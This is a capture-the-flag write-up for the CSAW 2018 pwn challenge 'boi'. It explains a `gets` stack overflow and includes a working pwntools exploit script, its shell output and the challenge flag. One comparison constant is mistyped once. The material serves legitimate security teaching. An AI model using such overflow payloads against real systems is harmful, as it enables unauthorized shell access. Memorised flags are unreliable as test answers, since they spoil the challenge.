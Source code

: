 # BigBoi

## Information:

CTF: CSAW Quals 2018
Category: PWN
Point Value: 25
Challenge Author: github.com/Helithumper

## Challenge Description

```bash
    bigboy
    Category: Pwn Points: 25 Solved: 656 Description:

    Only big boi pwners will get this one!

    nc pwn.chal.csaw.io 9000
```

We were given an ELF to work with. First thing I did was run `file` on it:
```bash
    boi: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked,
    interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=1537584f3b2381e1b575a67cba5fbb87878f9711, not stripped
```
So we were dealing with a 64 bit ELF.

Upon running, I found the following:
```bash
    ➜  boi ./boi
    Are you a big boiiiii??
    yes
    Wed Sep 19 04:27:55 UTC 2018
```
So when we give it text, it gives us the current time UTC... hmm

Disassembler time!

![Binary Ninja Disassembly](https://github.com/HackUCF/ctfs/raw/csaw_quals_bigboi/2018-2019/csaw_quals_2018/pwn/bigboi_25/images/bigboi1.png)

So what we see is that a conditional is run after `read` is called to compare `eax` with `0xcaf3baee`. If our value is not equal to `0xcad3baee`, then `/bin/date` is run. Else `/bin/bash` is run. You can guess which path of execution we want...

So from what I can see here i'm betting it's a buffer overflow given that `gets` is used. `gets` doesn't check for buffer sizes and is thus extremely volatile. If I name both the variable that `gets` puts our input into as well as the variable being compared to `0xcaf3baee` in Binja, then we can see offsets:

![Stack Overview](https://github.com/HackUCF/ctfs/raw/csaw_quals_bigboi/2018-2019/csaw_quals_2018/pwn/bigboi_25/images/bigboi2.png)

So we know that there is a difference of:

    0x38-0x28 = 16 Bytes

between our variables. The difference we see, however, is that our variable is actually at that offset `+0x4`.
![+0x4](https://github.com/HackUCF/ctfs/raw/csaw_quals_bigboi/2018-2019/csaw_quals_2018/pwn/bigboi_25/images/bigboi3.png)
So we add 4 to 16 Bytes and we get an offset of 20 Bytes.

With this knowledge, we can then create our payload:
```python
    from pwn import *


    p = remote('pwn.chal.csaw.io',9000)

    print(p.recvline())

    payload = 'A'*20 + p64(0xCAF3BAEE)

    # gdb.attach(p)

    print(payload)
    p.sendline(payload)


    p.interactive()
```
When run, we get the following:
```bash
    me@mycomputer ~/D/c/c/boi> python exploit.py
    [+] Opening connection to pwn.chal.csaw.io on port 9000: Done
     _    ___        ____   ___  _ _ _ _

    AAAAAAAAAAAAAAAAAAAA���\x00\x00\x00
    [*] Switching to interactive mode
    | |__|_ _|__ _  | __ ) / _ \(_|_|_|_)
    | '_ \| |/ _` | |  _ \| | | | | | | |
    | |_) | | (_| | | |_) | |_| | | | | |
    |_.__/___\__, | |____/ \___/|_|_|_|_|
             |___/
    ***************************************
    Are you a big boiiiii??
    AAAAAAAAAAAAAAAAAAAA���^@^@^@^@
    $ ls
    ls
    art.txt  boi  flag.txt    run.sh
    $ cat flag.txt
    cat flag.txt
    flag{Y0u_Arrre_th3_Bi66Est_of_boiiiiis}
    $
```
So yay. Shell and flag